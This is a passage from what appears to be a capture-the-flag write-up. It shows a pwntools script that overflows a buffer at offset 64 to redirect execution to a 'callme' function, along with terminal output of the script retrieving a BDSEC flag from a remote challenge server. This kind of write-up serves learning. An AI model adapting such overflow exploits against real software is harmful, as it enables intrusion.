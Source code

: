 ```py
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

offset = 64
payload = flat({offset: elf.functions.callme}) # Craft Payload
io.recvuntil(b"out:\n") # Recieve Until Input
io.sendline(payload) # Send Payload
io.recvline() # Discard Extra Output
info(io.recvline().decode().strip()) # Profit
io.close()
```

```bash
└─$ py solve.py REMOTE                                               
[+] Opening connection to 139.144.184.150 on port 3333: Done
[*] BDSEC{reverse_engineering_shatters_the_chains_of_ignorance}
[*] Closed connection to 139.144.184.150 port 3333
```

> Flag: BDSEC{reverse_engineering_shatters_the_chains_of_ignorance}
{: .prompt-tip }